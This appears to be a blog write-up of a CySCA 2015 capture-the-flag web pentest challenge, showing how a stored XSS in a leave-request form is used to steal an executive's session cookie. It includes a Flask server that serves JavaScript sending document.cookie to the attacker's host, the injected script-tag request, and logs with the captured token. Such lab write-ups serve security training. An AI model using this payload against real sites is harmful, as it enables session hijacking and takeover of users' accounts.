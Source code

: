 ```yaml
---
title: CySCA 2015 - Web Application Pentest 4 - Business Excellence
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


<div style="font-size:0.7em"><i>Note: If you're interested in actually doing these challenges, <a href="/post/2015/cysca-2015/">check out this post</a> on 
how to get the environment set up.</i>
</div>

* * *


We need to gain access to the CVO (Angelina's) account. In order to do this, we
most likely will need to steal a cookie. We take a look in the leave details 
section and put in a leave request to see if it's XSS protected. Additionally,
we notice that the session cookie on this website  *is not* `HTTPOnly`. Time
to steal.

The browser will prevent javascript accessing `HTTPOnly` cookies, hence, if it 
was HTTP Only, we would be looking in the wrong place. 

We do the naive thing and just put `<h1>Hello</h1>` in. However, the ticker spits 
out `WARNING: XSS detected! You have been reported.`. Additionally, it appears 
the XSS is stripped client side too. 

<!--break-->

Lets take this to a [PostMan](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) session rather than mucking around with 
request stripping. 

We also fire up a little flask web-app to steal the user's session. 

{% highlight python %}
from flask import Flask
import sys
app = Flask(__name__)

if len(sys.argv) < 3:
    print("Usage: {} <Listen IP Address> <Listen Port>".format(sys.argv[0]))
    print("Listen IP Must be a reachable machine IP from the box")
    exit(1)

host = sys.argv[1]; port = int(sys.argv[2])

@app.route('/')
def hello_world():
    return 'Hello World! <script src="http://{}:{}/r.js"></script>'.format(host,port)

@app.route('/r.js')
def steal():
    return """
    var url = 'http://{}:{}/url?'+ document.cookie;
    document.write('<img src="' + url +'" />');
    """.format(host, port)

if __name__ == '__main__':
    app.run(debug=True, port=port, host='0.0.0.0')

{% endhighlight %}

We send off the following request:

{% highlight text %}
POST /service/leave HTTP/1.1
Host: www.ecwi.cysca
Cache-Control: no-cache

start: 11/19/2015
end: 12/19/2015
reason: <Script src="http://x.x.x.x/r.js"></Script>
{% endhighlight %}

(Replacing x.x.x.x my your machine's accessible IP address)

We notice that the ticker says "WARNING: XSS detected! You have been reported." 
however, we still wait. Within 2 minutes, our javascript gets loaded, and we've
stolen the user's session cookie:

{% highlight text %}
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /r.js HTTP/1.1" 200 -
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /url?session=eyJfZnJlc2giOnRydWUsIl9pZCI6eyIgYiI6IlltSmtNemxpT1RCbE56TTJNakkwTkRVMU0yTXpPVFZpTkRoa01tWm1Zek09In0sInVzZXJfaWQiOiI1In0.CS8EeQ.fNfERZulfSlUGpMSNEnsN2TBnzQ HTTP/1.1" 404 -
{% endhighlight %}

We replace our session cookie with this one, and now we've logged in, reavealing
the flag in the ticker:

> You're an Executive! - FLAG{3a000000000000000000000000000000}


